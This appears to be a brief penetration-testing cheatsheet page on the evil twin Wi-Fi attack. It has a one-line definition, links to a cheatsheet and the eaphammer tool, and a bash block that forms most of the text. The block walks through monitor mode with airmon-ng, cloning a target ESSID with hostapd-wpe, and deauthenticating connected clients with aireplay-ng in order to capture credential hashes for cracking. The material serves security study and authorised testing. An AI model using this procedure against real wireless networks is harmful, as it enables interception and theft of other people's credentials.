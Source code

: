 >[!INFO]
>An evil twin is a **fraudulent Wi-Fi access point** that appears to be legitimate but is set up to eavesdrop on wireless communications.
>The evil twin is the wireless LAN equivalent of the **phishing** scam.

- https://cheatsheet.haax.fr/wireless/rogue_ap#evil-twin-attack - Evil Twin CheatSheet - Source
- https://github.com/s0lst1c3/eaphammer - Tool for Evil Twin


```bash
# 1/ Start monitoring mode
# If you plan to use deauth attack, connect the 2 eth interfaces at the same time
# To avoid having wlan0mon and wlan0 (it can conflict)
sudo airmon-ng start wlan0

# 2/ If process are blocking the monitoring mode, kill them
sudo airmon-ng check kill
sudo kill <PID>

# 3/ Get the target AP (ESSID)
# Your target can have multiples AP, and so multiples MAC addresses
# They can run on differents channels
sudo airodump wlan0mon

# 4/ Then set the target in the configuration file
sudo nano /etc/hostapd-wpe/hostapd-wpe.conf
ssid=<ESSID>

# 5/ Start AP
# You will only get people that newly connects to the target AP
# If you want to get people already connected, you need to push the attack further with deauth
sudo hostapd-wpe /etc/hostapd-wpe/hostapd-wpe.conf

# 6/ Start the second ethernet interface
sudo airmon-ng start wlan1

# 7/ Deauth (In another terminal)
# Based on the differents ESSID and channels found in step 3
# -0 is the number of deauth packet sent
sudo aireplay-ng -0 10 -a <mac address> -c <channel>

# Then wait for credz \o/
# You will probably get NetNTLMv1 hashes you will need to crack
```
